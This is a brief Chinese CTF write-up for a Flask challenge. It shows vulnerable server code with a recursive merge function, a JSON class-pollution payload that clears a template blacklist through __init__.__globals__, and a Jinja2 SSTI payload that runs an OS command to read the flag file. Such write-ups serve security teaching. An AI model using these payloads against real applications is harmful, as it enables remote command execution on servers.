 ### jinjia mark

---

那个题给了，爆破也行

![image-20240927155555530](https://gitee.com/bx33661/image/raw/master/path/image-20240927155555530.png)

```python
BLACKLIST_IN_index = ['{','}']
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
@app.route('/magic',methods=['POST', 'GET'])
def pollute():
    if request.method == 'POST':
        if request.is_json:
            merge(json.loads(request.data), instance)
            return "这个魔术还行吧"
        else:
            return "我要json的魔术"
    return "记得用POST方法把魔术交上来"
```

看到这个`merge`函数就想到原型链、

我们看到它给的黑名单，现在用原型链给它污染了，就可以达到我们的目的



然后在`Magic` 路由传递

```json
{
    "__init__":{
        "__globals__":{
           "BLACKLIST_IN_index":""
        }
    }
}
```

然后返回`index`目录下

我们就可以进行ssti,拿到flag

```
{{lipsum.__globals__['os'].popen('tac ../flag').read()}}
```



